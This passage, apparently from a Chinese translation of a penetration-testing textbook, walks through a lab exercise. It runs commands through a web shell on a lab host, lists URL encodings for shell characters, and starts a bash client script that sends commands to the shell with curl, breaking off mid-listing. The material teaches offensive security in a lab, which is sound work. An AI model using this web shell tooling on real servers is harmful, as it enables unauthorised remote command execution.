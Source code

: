 访问 *http://172.16.10.10:8081/webshell/pwd* 查看我们在系统中的位置：

```
/app
```

最后，访问 *http://172.16.10.10:8081/webshell/uname%20-a* 来识别我们刚刚攻陷的操作系统：

```
Linux p-web-01.acme-hyper-branding.com 6.1.x-kali5-amd64 #1 SMP
PREEMPT_DYNAMIC Debian 6.1.xx-1kali1 x86_64 x86_64 x86_64 GNU/Linux 
```

请注意，当我们将 uname -a bash 命令发送到 web shell 时，我们必须使用 %20 表示法对空格字符进行 URL 编码。表 6-1 显示了一些常用的 URL 编码字符，你可以将它们插入到 bash web shell 中。

表 6-1：Bash Web Shell 常用的 URL 编码字符

| 字符 | URL 编码 |
| --- | --- |
| 空格 () | %20 |
| 斜杠 (/) | %2F |
| 问号 (?) | %3F |
| 和号 (&) | %26 |
| 等号 (=) | %3D |
| 冒号 (:) | %3A |
| 分号 (;) | %3B |
| 哈希 (#) | %23 |
| 加号 (+) | %2B |
| 逗号 (,) | %2C |

现在我们已经在服务器上获得了初步控制，让我们开发一个独特的 bash 脚本，以便更好地与其交互，这样我们就不必使用浏览器了。

练习 8：构建一个 Web Shell 接口

在本练习中，你将开发一个 bash 脚本，用于自动向你上传到 *p-web-01*（172.16.10.10）的 Web Shell 发送命令，并解析你收到的输出。该脚本应通过发送基于本地 bash 输入提示符输入的 bash 命令生成的 HTTP 请求与 Web Shell 进行交互。

由于命令可能包含特殊字符，因此你需要确保正确编码所有输入。你还需要返回干净的输出，只包含相关的命令执行响应。清单 6-1 显示了一个这样的 Web Shell 脚本示例。

webshell.sh

```
#!/bin/bash

❶ read -p 'Host: ' host
read -p 'Port: ' port

while true; do
  read -p '$ ' raw_command
❷ command=$(printf %s "${raw_command}" | jq -sRr @uri)
❸ response=$(curl -s -w "%{http_code}" \
  -o /dev/null "http://${host}:${port}/webshell/${command}")
  http_code=$(tail -n1 <<< "$response")

  # Check if the HTTP status code is a valid integer.
  if [["${http_code}" =~ ^[0-9]+$]]; then
  ❹ if ["${http_code}" -eq 200]; then
    ❺ curl "http://${host}:${port}/webshell/${command}"
    else
      echo "Error: HTTP status code ${http_code}"
    fi
  else
```